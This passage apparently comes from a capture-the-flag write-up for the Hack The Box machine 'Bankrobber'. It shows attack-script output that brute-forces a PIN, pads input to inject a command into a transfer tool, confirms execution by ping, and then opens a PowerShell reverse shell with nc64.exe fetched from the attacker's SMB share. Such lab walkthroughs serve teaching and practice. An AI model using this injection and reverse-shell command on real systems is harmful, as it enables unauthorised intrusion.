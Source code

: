    There seems to be a max limit of characters, so lets try to modify our script to add a padding of characters before our RCE.

     [$] PIN is correct, access granted!
     --------------------------------------------------------------
     Please enter the amount of e-coins you would like to transfer:
     [$]
     Executing RCE: 99999999999999999999999999999999cmd.exe /c "ping 10.10.14.21"
     [$] Transfering $99999999999999999999999999999999cmd.exe /c "ping 10.10.14.21" using our e-coin transfer application.
     [$] Executing e-coin transfer tool: cmd.exe /c "ping 10.10.14.21"

     [$] Transaction in progress, you can safely disconnect...

   root@p3:/opt/htb/machines/bankrobber# tcpdump -i tun0 icmp
     tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
     listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
     10:43:55.390230 IP bankrobber.htb > p3: ICMP echo request, id 1, seq 13, length 40
     10:43:55.390271 IP p3 > bankrobber.htb: ICMP echo reply, id 1, seq 13, length 40
     10:43:56.397467 IP bankrobber.htb > p3: ICMP echo request, id 1, seq 14, length 40
     10:43:56.397506 IP p3 > bankrobber.htb: ICMP echo reply, id 1, seq 14, length 40
     10:43:57.412784 IP bankrobber.htb > p3: ICMP echo request, id 1, seq 15, length 40
     10:43:57.412822 IP p3 > bankrobber.htb: ICMP echo reply, id 1, seq 15, length 40
     10:43:58.428235 IP bankrobber.htb > p3: ICMP echo request, id 1, seq 16, length 40
     10:43:58.428256 IP p3 > bankrobber.htb: ICMP echo reply, id 1, seq 16, length 40

   We got code execution!


4. Use the RCE to gain a reverse shell as admin, and grab root.txt.

    root@p3:/opt/htb/machines/bankrobber# python privesc.py
     --------------------------------------------------------------
     Internet E-Coin Transfer System
     International Bank of Sun church
                                            v0.1 by Gio & Cneeliz
     --------------------------------------------------------------
     Please enter your super secret 4 digit PIN code to login:
     [$]
     Entering: 0021

     PIN Correct!
     [$] PIN is correct, access granted!

     --------------------------------------------------------------
     Please enter the amount of e-coins you would like to transfer:
     [$]
     Executing RCE: //10.10.14.21/pub-share/nc64.exe 10.10.14.21 4499 -e powershell

     ######################################
     ###                                ###
     ###  RCE Complete - Happy Hacking  ###
     ###                                ###
     ######################################
